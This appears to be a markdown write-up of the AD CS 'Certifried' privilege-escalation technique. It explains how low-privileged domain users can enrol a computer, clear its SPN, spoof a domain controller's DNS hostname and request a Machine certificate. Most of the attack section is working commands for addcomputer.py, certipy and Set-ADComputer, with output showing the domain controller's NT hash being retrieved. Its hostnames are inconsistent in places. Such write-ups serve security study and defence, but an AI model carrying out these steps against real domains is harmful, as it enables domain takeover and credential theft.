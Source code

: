 It's a vulnerability in AD Certificate Services.
<br>

Summary:
----
Active Directory Certificate Services (AD CS) is an essential component of Microsoft’s Public Key Infrastructure (PKI) that provides various services to support identity and access management within organizations. While it is primarily recognized for its role in issuing and managing digital certificates for secure communication (like HTTPS), its capabilities extend well beyond this.

**Client Authentication**
It's allows the owner of the certificate to use it to verify their own identity in AD for authentication purposes. For example, a client certificate is used to authenticate against a web application. The authentication process occurs through Kerberos. If we have a valid certificate that has the Client Authentication EKU, we can interface with AD CS and the Key Distribution Centre to request a Kerberos TGT that can then be used for further authentication. <br>

As an attacker, we can leverage this to generate a TGT to impersonate another user or system, should we have a valid certificate for them. In essence, we want to be able to modify the Subject Alternative Name (SAN) attribute of the certificate request to point to someone or something else, that has more permissions to perform privilege escalation.

**Default Certificate Templates**

By default, when AD CS is installed in an environment, two certificate templates are made available for requests that support Client Authentication:

    User Certificate Template - This certificate template can be requested by any user that belongs to the Domain Users group.
    Machine Certificate Template - This certificate template can be requested by any host that belongs to the Domain Computers group.


The User Template is not vulnerable by default. When we request a certificate based on the User template, the User Principal Name (UPNs) of the user account will be embedded in the SAN that can be used for identification. Since UPNs must be unique, and we usually do not have the ability to modify our UPN, we cannot leverage this template. Furthermore, since we don't have the ability to alter the SAN value in the certificate signing request, we cannot impersonate another user by specifying their UPN.
<br>

However, computer accounts do not have a UPN. Instead of using a UPN for authentication, the Machine template uses the DNS Name of the machine for identification and authentication. When a certificate is requested for a machine through the Machine template, AD CS embeds the machine's DNS Name into the SAN, which is then used for authentication.

**Default Domain User Privileges**

By default, any user who is a member of the Authenticated Users group (literally all AD accounts) can enrol up to 10 new machines on the domain. 


When we enrol a new host in AD, we are assigned as the owner of that host. This provides us with certain permissions over the AD Object associated with that host. Two permissions in particular cause an issue here:

    Validate write to DNS hostname - This permission allows us to update the DNS hostname of our AD Object associated with the host.
    Validate write to Service Principal Name (SPN) - This permission allows us to update the SPN of our AD Object associated with the host.

>SPNs must be unique, meaning two AD Objects are not allowed to have the same SPN.

Our goal here is changing the DNS hosname of our joined machine to the DNS of the domain controller.
-

**Putting it all Together**

Using these configurations, **the default AD CS Machine certificate template**, **the default ability to enrol a new machine**, and **the default permissions assigned on the created Computer AD Object**, we have a privilege escalation vector on our hands. What makes it worse is that this privilege escalation vector requires minimal effort, meaning the attacker's skill level to exploit this issue is quite low. The basic steps are the following:

    1- Compromise the credentials of a low-privileged AD user.
    2- Use those credentials to enrol a new host on the domain.
    3- Alter the DNS hostname attribute of the Computer AD Object to that of a privileged host, such as a Domain Controller.
    4- Remove the SPN attributed to bypass the unique SPN conflict issue.
    5- Request a Machine certificate using the default template.
    6- Perform Kerberos authentication with the received template, now as the privileged machine account instead of our fake machine account.


Now that we have covered the theory. Let's see it in action. 

**Adding a Computer to the Domain**


using our low user, we can add a computer to the domain to generate a Machine certificate using mpacket's ```addcomputer.py```:
```
addcomputer.py '<domain name>/<our username>:<his password>' -method LDAPS -computer-name 'TESTDC' -computer-pass 'Password123'
```
First, let's generate a certificate for the new computer we created using ```certipy```:
```
certipy req -u "TESTDC$@<domain name>" -p '<its password>' -ca <Cert Authority server of the domain> -template Machine
```

We could dump the CA of the domain:
```
certipy find -u "<username>@<domain name>" -p '<his password>' -target <domain name>
```
we can verify that the certificate is valid by using Certipy:
```
certipy-ad auth -pfx TESTDC$
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: TESTDC$@test.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'TESTDC.ccache'
[*] Trying to retrieve NT hash for 'TESTDC$'
[*] Got NT hash for 'TESTDC$@test.local': <the ntml hash>

```
This command will dump the ntml hash of this computer.

**Updating the DNS Hostname and SPN Attributes**


we should open a session using our low user using ```evil-winrm```. <br>

Let's first just get the current attributes from our Computer AD Object using the Get-ADComputer cmdlet:
```
PS C:\> Get-ADComputer TESTDC -properties dnshostname,serviceprincipalname
```

Let's try to update the DNS hostname attribute to that of the DC using the ```Set-ADComputer``` cmdlet:
```
PS C:\> Set-ADComputer TESTDC -DnsHostName LUNDC.lunar.eruca.com
Set-ADComputer : The operation failed because SPN value provided for addition/modification is not unique forest-wide 
At line:1 char:1                                                                                                     
+ Set-ADComputer TESTDC -DnsHostName TESTDC.test.local                                                           
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                                                           
    + CategoryInfo          : NotSpecified: (TESTDC:ADComputer) [Set-ADComputer], ADException                        
    + FullyQualifiedErrorId : ActiveDirectoryServer:8647,Microsoft.ActiveDirectory.Management.Commands.SetADComputer
```
As we can see from the output, Microsoft automatically changes the SPN attribute when we set the DNS hostname. Since an SPN already exists for LUNDC, the command fails.
```
يعني بمعني اصح لازم قبل ما نغير ال
DNC
بتاع الجهاز بتاعنا لازم نشيل ال
SPN
علشان ميحصلش مشكله
```
To counter this, let's first remove our current SPN attribute:
```
Set-ADComputer TESTDC -ServicePrincipalName @{}
```
Now that we have flushed our Computer AD Object's SPN, let's again try to set the DNS hostname attribute to that of the DC:
```
PS C:\>Set-ADComputer TESTDC -DnsHostName DomainController.test.local
```
Now, we change the DNS of our joind machine to the DNS of the domain controller, So we could request a certificate using the forged DNS (domain controller DNS) of our machine

**Forging a Malicious Certificate**

Time to regenerate some certificates! Let's run that same command of Certipy again to request a new certificate for our computer:

 ```
certipy req -u "TESTDC$@<domain name>" -p '<its password>' -ca <Cert Authority server of the domain> -template Machine
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 21
[*] Got certificate with DNS Host Name 'DomainController.test.local'
[*] Saved certificate and private key to 'DomainController.pfx'
```
This time we noticed something different. Even though we requested a certificate for TESTDC, we got a certificate for DomainController. Let's verify that this certificate is working and will return the NTLM hash of the DomainController machine account instead:
```
certipy auth -pfx DomainController.pfx
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: DomainController$@test.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'DomainController.ccache'
[*] Trying to retrieve NT hash for 'DomainController$'
[*] Got NT hash for 'DomainController$@test.local': <the NTML hash>
```
      


      

















